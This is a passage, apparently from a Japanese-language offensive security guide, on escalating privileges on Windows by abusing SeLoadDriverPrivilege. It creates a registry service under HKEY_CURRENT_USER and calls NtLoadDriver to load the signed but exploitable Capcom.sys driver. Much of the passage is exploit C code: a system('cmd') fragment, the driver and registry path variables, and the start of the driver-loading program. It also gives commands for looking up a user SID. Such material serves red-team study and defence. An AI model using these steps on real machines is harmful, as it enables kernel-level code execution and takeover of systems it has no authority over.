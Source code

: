```c

system("cmd");
return 0;
}
```
{% endcode %}

上記をコンパイルして実行すると、特権 `SeLoadDriverPrivilege` が有効になります：

![](../../../.gitbook/assets/a10.png)

### Capcom.sys ドライバの脆弱性 <a href="#capcom-sys-driver-exploit" id="capcom-sys-driver-exploit"></a>

`SeLoadDriverPrivilege` が危険であることをさらに証明するために、特権を昇格させるためにそれを悪用してみましょう。

**NTLoadDriver** を使用して新しいドライバをロードすることができます：
```cpp
NTSTATUS NTLoadDriver(
_In_ PUNICODE_STRING DriverServiceName
);
```
デフォルトでは、ドライバーサービス名は`\Registry\Machine\System\CurrentControlSet\Services\`の下にあるはずです。

しかし、**ドキュメント**によると、**HKEY_CURRENT_USER**の下のパスも使用できるため、システム上で任意のドライバーをロードするためにそこでレジストリを変更することもできます。
新しいレジストリで定義する必要がある関連するパラメータは次のとおりです。

* **ImagePath:** ドライバーパスを指定するREG_EXPAND_SZ型の値。このコンテキストでは、パスは特権のないユーザーによって変更許可が与えられたディレクトリである必要があります。
* **Type**: サービスのタイプを示すREG_WORD型の値。私たちの目的のために、値はSERVICE_KERNEL_DRIVER（0x00000001）として定義されるべきです。

したがって、**`\Registry\User\<User-SID>\System\CurrentControlSet\MyService`**に新しいレジストリを作成し、**ImagePath**にドライバーへのパス、**Type**に値1を指定し、それらの値をエクスプロイトで使用することができます（ユーザーSIDは次の方法で取得できます：`Get-ADUser -Identity 'USERNAME' | select SID`または`(New-Object System.Security.Principal.NTAccount("USERNAME")).Translate([System.Security.Principal.SecurityIdentifier]).value`）。
```bash
PCWSTR pPathSource = L"C:\\experiments\\privileges\\Capcom.sys";
PCWSTR pPathSourceReg = L"\\Registry\\User\\<User-SID>\\System\\CurrentControlSet\\MyService";
```
最初の変数は、被害者のシステム上にある脆弱な**Capcom.sys**ドライバの場所を示す文字列変数を宣言しています。2番目の変数は、使用されるサービス名を示す文字列変数です（任意のサービス名を使用できます）。
注意：**ドライバはWindowsによって署名されている必要がある**ため、任意のドライバをロードすることはできません。しかし、**Capcom.sys**は**任意のコードを実行するために悪用でき、Windowsによって署名されています**。したがって、このドライバをロードして悪用することが目標です。

ドライバをロードする：
```c
#include "stdafx.h"
#include <windows.h>
#include <stdio.h>
#include <ntsecapi.h>
#include <stdlib.h>
#include <locale.h>
#include <iostream>
#include "stdafx.h"

NTSTATUS(NTAPI *NtLoadDriver)(IN PUNICODE_STRING DriverServiceName);
VOID(NTAPI *RtlInitUnicodeString)(PUNICODE_STRING DestinationString, PCWSTR SourceString);
NTSTATUS(NTAPI *NtUnloadDriver)(IN PUNICODE_STRING DriverServiceName);

int main()
{
TOKEN_PRIVILEGES tp;
LUID luid;
bool bEnablePrivilege(true);
HANDLE hToken(NULL);
OpenProcessToken(GetCurrentProcess(), TOKEN_ADJUST_PRIVILEGES | TOKEN_QUERY, &hToken);

```